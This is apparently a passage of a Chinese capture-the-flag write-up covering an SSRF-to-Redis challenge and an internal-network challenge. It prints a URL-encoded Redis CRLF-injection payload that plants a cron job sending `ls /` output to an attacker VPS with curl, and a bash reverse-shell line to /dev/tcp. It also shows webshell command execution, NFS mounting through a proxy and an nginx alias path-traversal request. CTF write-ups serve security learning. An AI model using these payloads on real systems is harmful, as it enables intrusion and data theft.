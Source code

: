 
      先用http://www.vps的ip.xip.io/发现useragent是python的urllib，猜测存在http头部注入，反正这个注入支持302跳转，用一个php来跳转
      用http://www.vps的ip.xip.io/1.php来操作
      1.php的代码

   ```
      <?php
      header('Location: http://xxxxx/');>
   ```
      https://phpinfo.me/2016/07/07/1275.html
      https://blog.chaitin.com/gopher-attack-surfaces/
      参考一下这两个ssrf的资料，最后一次试的payload，1.php为
      
    ​```Php
      header('Location: http://redis%00%0d%0a3%0d%0a%243%0d%0aset%0d%0a%241%0d%0a9%0d%0a%2464%0d%0a%0a%2f1%20%20%20%20%20*%20curl%20--data-urlencode%20%22%60ls%20%2f%60%22%20vps的ip%0a%0d%0aconfig%20set%20dir%20%2fvar%2fspool%2fcron%2f%0d%0aconfig%20set%20dbfilename%20firesun%0d%0asave%0d%0a:6379/');
    ​```
    
    提交http://www.vps的ip.xip.io/1.php，返回500
    连curl都curl不出来
    Bash反弹的payload丢了 不过都类似，改中间的代码就行
    改为*/1 * * * * bash -i >& /dev/tcp/xxxxx/2333 0>&1
    貌似中间的有长度限制，可以拿%20补到64，不过貌似也不行

### 10.你没走过的套路
   给了一句话，那第一步先反弹一个shell回来方便操作(get请求的 参数是aklis)

   Nmap全网 发现192.168.0.1，4，5，6，php-fpm运行在192.168.0.4
   192.168.0.1开了nfs端口，用showmount -e 192.168.0.1可以看到存在共享/var/nfs，
   由于没root权限，端口映射出来本地挂载，参考rr菊苣的文章
   https://ricterz.me/posts/Mount%20NFS%20via%20Proxy?_=1480252069313
   端口转发可以用http://www.freebuf.com/articles/system/12182.html这类的二进制来转发
   /var/nfs里其实就一个default.conf，里面关键的地方

```
   location /static {
           alias /var/www/static/;
           autoindex on;
   }
```

 所以访问http://xxxxx/static..等于访问/var/www/static/..
   192.168.0.1，5，6上运行着nginx，挨个测试，发现192.168.0.6有问题
   直接访问
   http://120.27.122.0/?aklis=echo%20system(%22curl%20192.168.0.6/static../%22);
   得flag